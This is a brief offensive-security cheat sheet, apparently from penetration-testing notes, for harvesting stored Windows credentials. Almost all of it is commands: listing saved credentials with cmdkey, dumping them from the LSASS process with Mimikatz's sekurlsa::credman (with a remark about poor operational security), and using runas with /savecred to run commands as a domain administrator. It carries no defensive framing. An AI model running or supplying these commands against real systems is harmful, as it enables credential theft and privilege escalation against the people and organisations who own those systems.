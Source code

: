 Dumping stored credentials stored in current user's profile
```bash
cmdkey /list
```
(Mimikatz) Dumping stored credentials
- Interacts with the LSASS process (bad OPSEC)
```bash
mimikatz.exe sekurlsa::credman
```
RunAs command
```powershell
<PATH_TO>\runas.exe /user:<DOMAIN>\<Administrator User> /savecred "<cmd to run>"
```

